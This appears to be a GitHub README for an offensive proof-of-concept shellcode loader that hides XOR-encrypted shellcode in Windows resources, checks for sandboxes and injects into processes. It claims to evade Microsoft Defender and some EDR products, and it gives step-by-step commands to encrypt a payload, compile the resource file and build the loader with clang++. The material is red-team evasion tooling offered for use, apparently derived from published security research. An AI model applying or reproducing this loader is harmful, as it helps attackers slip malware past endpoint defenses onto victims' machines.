 # PayloadInResources
This is a POC based on the research done by [White Knight Labs](https://github.com/WKL-Sec).

- Sandbox bypass checking if name of the executable is in the path.
- Store/fetch the shellcode in resources and XOR encrypt/decrypt it.
- Using unconventional method for process injection.
The above is capable of bypassing AV(I tested against Defender), possibly some EDRs.

# Usage
1. XOR encrypt the raw shellcode using the `xorencrypt.py`:
```powershell
# python .\xorencrypt.py <payload_file> <output_file> <xor_key>
python .\xorencrypt.py .\calc.bin encrypted.bin ABCD
```
2. Modify the `metadata.rc` to reflect the `<output_file>` name:
```powershell
SHELLCODE_RESOURCE RCDATA "encrypted.bin"
```
3. Compile the `metadata.rc` to `.res`:
```powershell
rc.exe /r /fo .\metadata.res .\metadata.rc
```
4. Modify the `Caue.cpp` line 52 with the XOR key you used and compile with clang++:
```powershell
clang++.exe -O2 -Ob2 -Os -fno-stack-protector -g -Xlinker -pdb:none -Xlinker -subsystem:console -o Caue.exe Caue.cpp metadata.res -luser32 -lkernel32 -fno-unroll-loops -fno-exceptions -fno-rtti
```

# Credits
- [Tales of AV/EDR Bypass - Double Feature w/ Greg Hatcher & John Stigerwalt](https://www.youtube.com/watch?v=Qo27gQK725g)
- [GregsBestFriend](https://github.com/WKL-Sec/GregsBestFriend)
